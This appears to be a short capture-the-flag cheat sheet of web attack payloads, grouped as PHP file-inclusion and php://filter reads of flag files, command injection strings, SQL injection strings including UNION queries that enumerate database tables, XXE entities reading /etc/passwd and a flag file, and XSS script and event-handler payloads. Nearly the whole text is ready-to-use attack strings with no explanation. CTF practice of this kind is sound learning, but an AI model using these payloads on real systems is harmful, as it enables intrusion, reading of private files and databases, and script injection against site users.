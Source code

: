 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
### XSS:
- `#<script>alert('XSS')</script>`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<p onclick=alert('XSS')>Click me</p>`
- `#<body onload=alert('XSS')>`
- `#</p><script>alert('XSS')</script>`
- `#<img src="x" onerror="alert('XSS')">`
- `#%25253Cscript%25253Ealert(1)%25253C/script%25253E`

